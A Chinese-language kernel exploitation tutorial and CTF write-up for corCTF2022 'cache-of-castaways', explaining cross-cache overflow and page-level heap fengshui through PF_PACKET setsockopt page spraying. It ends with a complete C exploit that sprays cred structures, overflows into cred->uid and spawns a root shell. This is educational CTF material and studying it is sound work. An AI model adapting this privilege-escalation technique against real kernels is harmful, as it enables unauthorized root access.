



# Cross-Cache Overflow & Page-level Heap Fengshui

> 注：這是兩種聯合起來的利用手法。

## Cross-Cache Overflow

與我們此前一直關注於 slub allocator 的各種利用手法不同，**Cross-Cache Overflow** 實際上是**針對 buddy system** 的利用手法，其主要基於如下思路：

- slub allocator 底層邏輯是向 buddy system 請求頁面後再劃分成特定大小 object 返還給上層調用者。
  - 內存中用作不同 `kmem_cache` 的頁面在內存上是有可能相鄰的。
- 若我們的漏洞對象存在於頁面 A，溢出目標對象存在於頁面 B，且 A、B兩頁面相鄰，則我們便有可能實現跨越不同 `kmem_cache` 之間的堆溢出。



**Cross-Cache Overflow 打破了不同 kmem\_cache 之間的阻礙，可以讓我們的溢出漏洞對近乎任意的內核結構體進行覆寫。**

但這需要達成非常嚴苛的頁級堆排布，而內核的堆頁面佈局對我們而言通常是未知的，因此我們需要想辦法將其變爲已知的內存佈局，這就需要**頁級堆風水**——

## Page-level Heap Fengshui

顧名思義，**頁級堆風水**即以內存頁爲粒度的內存排布方式，而內核內存頁的排布對我們來說不僅未知且信息量巨大，因此這種利用手法實際上是讓我們**手工構造一個新的已知的頁級粒度內存頁排布**。

首先讓我們重新審視 slub allocator 向 buddy system 請求頁面的過程，當 freelist page 已經耗空且 partial 鏈表也爲空時（或者 `kmem_cache` 剛剛創建後進行第一次分配時），其會向 buddy system 申請頁面：



接下來讓我們重新審視 buddy system ，其基本原理就是以 2 的 order 次冪張內存頁作爲分配粒度，相同 order 間空閒頁面構成雙向鏈表，當低階 order 的頁面不夠用時便會從高階 order 取一份連續內存頁拆成兩半，其中一半掛回當前請求 order 鏈表，另一半返還給上層調用者；下圖爲以 order 2 爲例的 buddy system 頁面分配基本原理：



我們不難想到的是：從更高階 order 拆分成的兩份低階 order 的連續內存頁**是物理連續的**，由此我們可以：

- 向 buddy system 請求兩份連續的內存頁。
- 釋放其中一份內存頁，在 `vulnerable kmem_cache` 上堆噴，讓其取走這份內存頁。
- 釋放另一份內存頁，在 `victim kmem_cache` 上堆噴，讓其取走這份內存頁。

**此時我們便有可能溢出到其他的內核結構體上，從而完成 cross-cache overflow**

### 使用 setsockopt 與 pgv 完成頁級內存佔位與堆風水

那麼我們該如何完成這樣的頁佔位與頁排布呢？筆者這裏給出一個來自於 [CVE-2017-7308](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html) 的方案：

當我們創建一個 protocol 爲 `PF_PACKET` 的 socket 之後，先調用 `setsockopt()` 將 `PACKET_VERSION` 設爲  `TPACKET_V1 `/ `TPACKET_V2`，再調用 `setsockopt()` 提交一個 `PACKET_TX_RING` ，此時便存在如下調用鏈：

```c
__sys_setsockopt()
    sock->ops->setsockopt()
    	packet_setsockopt() // case PACKET_TX_RING ↓
    		packet_set_ring()
    			alloc_pg_vec()
```

在 `alloc_pg_vec()` 中會創建一個 `pgv` 結構體，用以分配 `tp_block_nr` 份 2<sup>order</sup> 張內存頁，其中 `order` 由 `tp_block_size` 決定：

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
	unsigned int block_nr = req->tp_block_nr;
	struct pgv *pg_vec;
	int i;

	pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
	if (unlikely(!pg_vec))
		goto out;

	for (i = 0; i < block_nr; i++) {
		pg_vec[i].buffer = alloc_one_pg_vec_page(order);
		if (unlikely(!pg_vec[i].buffer))
			goto out_free_pgvec;
	}

out:
	return pg_vec;

out_free_pgvec:
	free_pg_vec(pg_vec, order, block_nr);
	pg_vec = NULL;
	goto out;
}
```

在 `alloc_one_pg_vec_page()` 中會直接調用 `__get_free_pages()` 向 buddy system 請求內存頁，因此我們可以利用該函數進行大量的頁面請求：

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
	char *buffer;
	gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
			  __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

	buffer = (char *) __get_free_pages(gfp_flags, order);
	if (buffer)
		return buffer;
	//...
}
```

相應地， `pgv` 中的頁面也會在 socket 被關閉後釋放：

```c
packet_release()
    packet_set_ring()
    	free_pg_vec()
```

 `setsockopt()`  也可以幫助我們完成**頁級堆風水**，當我們耗盡 buddy system 中的 low order pages 後，我們再請求的頁面便都是物理連續的，因此此時我們再進行  `setsockopt()`  便**相當於獲取到了一塊近乎物理連續的內存**（爲什麼是“近乎連續”是因爲大量的 `setsockopt()` 流程中同樣會分配大量我們不需要的結構體，從而消耗 buddy system 的部分頁面）。

## 例題：corCTF2022 - cache-of-castaways

> [官方 writeup 見此處](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)

### 題目分析

題目文件連 `kconfig` 都給了，筆者表示非常感動：

```shell
$ tree .
.
├── bzImage
├── initramfs.cpio.gz
├── kconfig
└── run

0 directories, 4 files
```

啓動腳本看都不用看就知道開了 SMEP、SMAP、KPTI（基本上已經是內核題標配了）：

```bash
#!/bin/sh

exec qemu-system-x86_64 \
    -m 4096M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on" \
    -netdev user,id=net \
    -device e1000,netdev=net \
    -no-reboot \
    -monitor /dev/null \
    -cpu qemu64,+smep,+smap \
    -initrd initramfs.cpio.gz \
```

在啓動腳本里加載了一個名爲 `cache_of_castaway.ko` 的 LKM，按慣例丟進 IDA，在模塊初始化時註冊了設備並創建了一個 `kmem_cache`，分配的 object 的 size 爲 `512`，創建 flag 爲 `SLAB_ACCOUNT | SLAB_PANIC`，同時開啓了 `CONFIG_MEMCG_KMEM=y`，這意味着這是一個**獨立的 kmem\_cache**：

```c
__int64 init_module()
{
  __int64 result; // rax

  castaway_dev = 255;
  qword_8A8 = (__int64)"castaway";
  qword_8B0 = (__int64)&castaway_fops;
  _mutex_init(&castaway_lock, "&castaway_lock", &_key_28999);
  if ( !(unsigned int)misc_register(&castaway_dev)
    && (castaway_arr = kmem_cache_alloc(kmalloc_caches[12], 3520LL)) != 0
    && (castaway_cachep = kmem_cache_create("castaway_cache", 0x200LL, 1LL, 0x4040000LL, 0LL)) != 0 )
  {
    result = init_castaway_driver_cold();
  }
  else
  {
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

設備只定義了一個 ioctl，其中包含分配與編輯堆塊的功能且都有鎖，最多可以分配 400 個 object，沒有釋放功能：

```c
__int64 __fastcall castaway_ioctl(__int64 a1, int a2, __int64 a3)
{
  __int64 v3; // r12
  _QWORD *v5; // rbx
  unsigned __int64 v6[6]; // [rsp+0h] [rbp-30h] BYREF

  v6[3] = __readgsqword(0x28u);
  if ( a2 != 0xCAFEBABE )
  {
    if ( copy_from_user(v6, a3, 24LL) )
      return -1LL;
    mutex_lock(&castaway_lock);
    if ( a2 == 0xF00DBABE )
      v3 = castaway_edit(v6[0], v6[1], v6[2]);
    else
      v3 = -1LL;
LABEL_5:
    mutex_unlock(&castaway_lock);
    return v3;
  }
  mutex_lock(&castaway_lock);
  v3 = castaway_ctr;
  if ( castaway_ctr <= 399 )
  {
    ++castaway_ctr;
    v5 = (_QWORD *)(castaway_arr + 8 * v3);
    *v5 = kmem_cache_alloc(castaway_cachep, 0x400DC0LL);
    if ( *(_QWORD *)(castaway_arr + 8 * v3) )
      goto LABEL_5;
  }
  return ((__int64 (*)(void))castaway_ioctl_cold)();
}
```

漏洞便存在於編輯堆塊的 `castaway_edit()` 當中，在拷貝數據時會故意從 `object + 6` 的地方開始拷貝，從而存在一個 6 字節的溢出，這裏因爲是先拷貝到內核棧上再進行內核空間中的拷貝所以不會觸發 `hardened usercopy` 的檢查：

```c
__int64 __fastcall castaway_edit(unsigned __int64 a1, size_t a2, __int64 a3)
{
  char src[512]; // [rsp+0h] [rbp-220h] BYREF
  unsigned __int64 v6; // [rsp+200h] [rbp-20h]

  v6 = __readgsqword(0x28u);
  if ( a1 > 0x18F )
    return castaway_edit_cold();
  if ( !*(_QWORD *)(castaway_arr + 8 * a1) )
    return castaway_edit_cold();
  if ( a2 > 0x200 )
    return castaway_edit_cold();
  _check_object_size(src, a2, 0LL);
  if ( copy_from_user(src, a3, a2) )
    return castaway_edit_cold();
  memcpy((void *)(*(_QWORD *)(castaway_arr + 8 * a1) + 6LL), src, a2);
  return a2;
}
```

編輯堆塊時我們應當向內核中傳入如下結構：

```c
struct request {
    int64_t index;
    size_t	size;
    void 	*buf;
};
```

### 漏洞利用

#### Step.I - cross-cache overflow

由於我們的漏洞對象位於獨立的 `kmem_cache` 中，因此其不會與內核中的其他常用結構體的分配混用，我們無法直接通過 slub 層的堆噴 + 堆風水來溢出到其他結構體來進行下一步利用；同時由於 slub 並不會像 glibc 的ptmalloc2 那樣在每個 object 開頭都有個存儲數據的 header，而是將 next 指針放在一個隨機的位置，我們很難直接溢出到下一個 object 的 next 域，由於 hardened freelist 的存在就算我們能溢出到下一個相鄰 object 的 next 域也沒法構造出一個合法的指針；而在我們的 slub 頁面相鄰的頁面上的數據對我們來說也是未知的，直接溢出的話我們並不知道能夠溢出到什麼頁面上 :（

那麼我們真的就沒有任何辦法了嗎？答案自然是否定的，讓我們把目光重新放到 slub allocator 上，當 freelist page 已經耗空且 partial 鏈表也爲空時（或者 `kmem_cache` 剛剛創建後進行第一次分配時），其會向 buddy system 申請頁面：


buddy system 的基本原理就是以 2 的 order 次冪張內存頁作爲分配粒度，相同 order 間空閒頁面構成雙向鏈表，當低階 order 的頁面不夠用時便會從高階 order 取一份連續內存頁拆成兩半，其中一半掛回當前請求 order 鏈表，另一半返還給上層調用者；下圖爲以 order 2 爲例的 buddy system 頁面分配基本原理：


我們不難想到的是：從更高階 order 拆分成的兩份低階 order 的連續內存頁**是物理連續的**，若其中的一份被我們的 `kmem_cache` 取走，而另一份被用於分配其他內核結構體的 `kmem_cache` 取走，**則我們便有可能溢出到其他的內核結構體上**——這便是 **`cross-cache overflow`**。

具體的溢出對象也並不難想——6個字節剛好足夠我們溢出到 `cred` 結構體的 `uid` 字段，完成提權，那麼如何溢出到我們想要提權的進程的 cred 結構體呢？我們只需要先 fork() 堆噴 cred 耗盡 `cred_jar ` 中 object，讓其向 buddy system 請求新的頁面即可，我們還需要先堆噴消耗 buddy system 中原有的頁面，之後我們再分配 cred 和題目 object，兩者便有較大概率相鄰。

`cred` 的大小爲 `192`，`cred_jar` 向 buddy system 單次請求的頁面數量爲 1，足夠分配 21 個 cred，因此我們不需要堆噴太多 `cred` 便能耗盡 `cred_jar`，不過 `fork()` 在執行過程中會產生很多的”噪聲“（即額外分配一些我們不需要的結構體，從而影響頁佈局），因此這裏我們改用 `clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND)`。

> 關於”噪聲“問題參見 [bsauce 師傅的博客](https://bsauce.github.io/2022/11/07/castaways/#2-3-fork%E5%99%AA%E5%A3%B0%E9%97%AE%E9%A2%98)，筆者暫未深入閱讀過 `fork()` 相關源碼。

由於 slub pages 並不會在釋放後立刻被返還給 buddy system，因此我們最好尋找一些會**直接調用向 buddy system 請求頁面的 API 的結構**，這裏筆者選擇參照官方 writeup 中參照 D3v17 在 [CVE-2017-7308](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html) 中使用 `setsockopt()` 進行頁噴射的方法：當我們創建一個 protocol 爲 `PF_PACKET` 的 socket 之後，先調用 `setsockopt()` 將 `PACKET_VERSION` 設爲  `TPACKET_V1 `/ `TPACKET_V2`，再調用 `setsockopt()` 提交一個 `PACKET_TX_RING` ，此時便存在如下調用鏈：

```c
__sys_setsockopt()
    sock->ops->setsockopt()
    	packet_setsockopt() // case PACKET_TX_RING ↓
    		packet_set_ring()
    			alloc_pg_vec()
```

在 `alloc_pg_vec()` 中會創建一個 `pgv` 結構體，用以分配 `tp_block_nr` 份 2<sup>order</sup> 張內存頁，其中 `order` 由 `tp_block_size` 決定：

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
	unsigned int block_nr = req->tp_block_nr;
	struct pgv *pg_vec;
	int i;

	pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
	if (unlikely(!pg_vec))
		goto out;

	for (i = 0; i < block_nr; i++) {
		pg_vec[i].buffer = alloc_one_pg_vec_page(order);
		if (unlikely(!pg_vec[i].buffer))
			goto out_free_pgvec;
	}

out:
	return pg_vec;

out_free_pgvec:
	free_pg_vec(pg_vec, order, block_nr);
	pg_vec = NULL;
	goto out;
}
```

在 `alloc_one_pg_vec_page()` 中會直接調用 `__get_free_pages()` 向 buddy system 請求內存頁，因此我們可以利用該函數進行大量的頁面請求：

```c
static char *alloc_one_pg_vec_page(unsigned long order)
{
	char *buffer;
	gfp_t gfp_flags = GFP_KERNEL | __GFP_COMP |
			  __GFP_ZERO | __GFP_NOWARN | __GFP_NORETRY;

	buffer = (char *) __get_free_pages(gfp_flags, order);
	if (buffer)
		return buffer;
	//...
}
```

`pgv` 中的頁面會在 socket 被關閉後釋放，這也方便我們後續的頁級堆風水，不過需要注意的是低權限用戶無法使用該函數，但是我們可以通過開闢新的命名空間來繞過該限制。

這裏需要注意的是**我們提權的進程不應當和頁噴射的進程在同一命名空間內**，因爲後者需要開闢新的命名空間，而我們應當在原本的命名空間完成提權，因此這裏筆者選擇新開一個進程進行頁噴射，並使用管道在主進程與噴射進程間通信。

#### Step.II - page-level heap fengshui

 `setsockopt()`  也可以幫助我們完成**頁級堆風水**，當我們耗盡 buddy system 中的 low order pages 後，我們再請求的頁面便都是物理連續的，因此此時我們再進行  `setsockopt()`  便**相當於獲取到了一塊近乎物理連續的內存**（爲什麼是”近乎連續“是因爲大量的 `setsockopt()` 流程中同樣會分配大量我們不需要的結構體，從而消耗 buddy system 的部分頁面）。

本題環境中題目的 `kmem_cache` 單次會向 buddy system 請求一張內存頁，而由於 buddy system 遵循 LIFO，因此我們可以：

- 先分配大量的單張內存頁，耗盡 buddy 中的 low-order pages。
- 間隔一張內存頁釋放掉部分單張內存頁，之後堆噴 cred，這樣便有幾率獲取到我們釋放的單張內存頁。
- 釋放掉之前的間隔內存頁，調用漏洞函數分配堆塊，這樣便有幾率獲取到我們釋放的間隔內存頁。
- 利用模塊中漏洞進行越界寫，篡改 `cred->uid` ，完成提權。

我們的子進程需要輪詢等待自己的 uid 變爲 root，但是這種做法並不優雅：) ，所以筆者這裏選擇用一個新的管道在主進程與子進程間通信，當子進程從管道中讀出1字節時便開始檢查自己是否成功提權，若未提權則直接 sleep 即可。

### EXPLOIT

最後的 exp 如下：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>
#include <sched.h>
#include <time.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>

#define PGV_PAGE_NUM 1000
#define PGV_CRED_START (PGV_PAGE_NUM / 2)
#define CRED_SPRAY_NUM 514

#define PACKET_VERSION 10
#define PACKET_TX_RING 13

#define VUL_OBJ_NUM 400
#define VUL_OBJ_SIZE 512
#define VUL_OBJ_PER_SLUB 8
#define VUL_OBJ_SLUB_NUM (VUL_OBJ_NUM / VUL_OBJ_PER_SLUB)

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

struct castaway_request {
    int64_t index;
    size_t	size;
    void 	*buf;
};

struct page_request {
    int idx;
    int cmd;
};

enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

struct timespec timer = {
    .tv_sec = 1145141919,
    .tv_nsec = 0,
};

int dev_fd;
int cmd_pipe_req[2], cmd_pipe_reply[2], check_root_pipe[2];
char bin_sh_str[] = "/bin/sh";
char *shell_args[] = { bin_sh_str, NULL };
char child_pipe_buf[1];
char root_str[] = "\033[32m\033[1m[+] Successful to get the root.\n"
                  "\033[34m[*] Execve root shell now...\033[0m\n";

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error: %s\033[0m\n", msg);
    exit(EXIT_FAILURE);
}

void alloc(void)
{
    ioctl(dev_fd, 0xCAFEBABE);
}

void edit(int64_t index, size_t size, void *buf)
{
    struct castaway_request r = {
        .index = index,
        .size = size,
        .buf = buf,
    };

    ioctl(dev_fd, 0xF00DBABE, &r);
}

int waiting_for_root_fn(void *args)
{
    /* we're using the same stack for them, so we need to avoid cracking it.. */
    __asm__ volatile (
        "   lea rax, [check_root_pipe]; "
        "   xor rdi, rdi; "
        "   mov edi, dword ptr [rax]; "
        "   mov rsi, child_pipe_buf; "
        "   mov rdx, 1;   "
        "   xor rax, rax; " /* read(check_root_pipe[0], child_pipe_buf, 1)*/
        "   syscall;      "
        "   mov rax, 102; " /* getuid() */
        "   syscall; "
        "   cmp rax, 0; "
        "   jne failed; "
        "   mov rdi, 1; "
        "   lea rsi, [root_str]; "
        "   mov rdx, 80; "
        "   mov rax, 1;"    /* write(1, root_str, 71) */
        "   syscall; "
        "   lea rdi, [bin_sh_str];  "
        "   lea rsi, [shell_args];  "
        "   xor rdx, rdx;   "
        "   mov rax, 59;    "
        "   syscall;        "   /* execve("/bin/sh", args, NULL) */
        "failed: "
        "   lea rdi, [timer]; "
        "   xor rsi, rsi; "
        "   mov rax, 35; "  /* nanosleep() */
        "   syscall; "
    );

    return 0;
}

void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

__attribute__((naked)) long simple_clone(int flags, int (*fn)(void *))
{
    /* for syscall, it's clone(flags, stack, ...) */
    __asm__ volatile (
        " mov r15, rsi; "   /* save the rsi*/
        " xor rsi, rsi; "   /* set esp and useless args to NULL */
        " xor rdx, rdx; "
        " xor r10, r10; "
        " xor r8, r8;   "
        " xor r9, r9;   "
        " mov rax, 56;  "   /* __NR_clone */
        " syscall;      "
        " cmp rax, 0;   "
        " je child_fn;  "
        " ret;          "   /* parent */
        "child_fn:      "
        " jmp r15;      "   /* child */
    );
}

int alloc_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

int free_page(int idx)
{
    struct page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

void spray_cmd_handler(void)
{
    struct page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(0x1000, 1);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

int main(int aragc, char **argv, char **envp)
{
    cpu_set_t cpu_set;
    char th_stack[0x1000], buf[0x1000];

    /* to run the exp on the specific core only */
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open castaway device!");
    }

    /* use a new process for page spraying */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    if (!fork()) {
        spray_cmd_handler();
        exit(EXIT_SUCCESS);
    }

    /* make buddy's lower order clean, castaway_requesting from higher */
    puts("[*] spraying pgv pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i++) {
        if(alloc_page(i) < 0) {
            printf("[x] failed at no.%d socket\n", i);
            err_exit("FAILED to spray pages via socket!");
        }
    }

    /* free pages for cred */
    puts("[*] freeing for cred pages...");
    for (int i = 1; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray cred to get the isolate pages we released before */
    puts("[*] spraying cred...");
    pipe(check_root_pipe);
    for (int i = 0; i < CRED_SPRAY_NUM; i++) {
        if (simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, 
                         waiting_for_root_fn) < 0){
            printf("[x] failed at cloning %d child\n", i);
            err_exit("FAILED to clone()!");
        }
    }

    /* free pages for our vulerable objects */
    puts("[*] freeing for vulnerable pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

    /* spray vulnerable objects, hope that we can make an oob-write to cred */
    puts("[*] trigerring vulnerability in castaway kernel module...");
    memset(buf, '\0', 0x1000);
    *(uint32_t*) &buf[VUL_OBJ_SIZE - 6] = 1;    /* cred->usage */
    for (int i = 0; i < VUL_OBJ_NUM; i++) {
        alloc();
        edit(i, VUL_OBJ_SIZE, buf);
    }

    /* checking privilege in child processes */
    puts("[*] notifying child processes and waiting...");
    write(check_root_pipe[1], buf, CRED_SPRAY_NUM);
    sleep(1145141919);

    return 0;
}

```

## REFERENCE

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui)

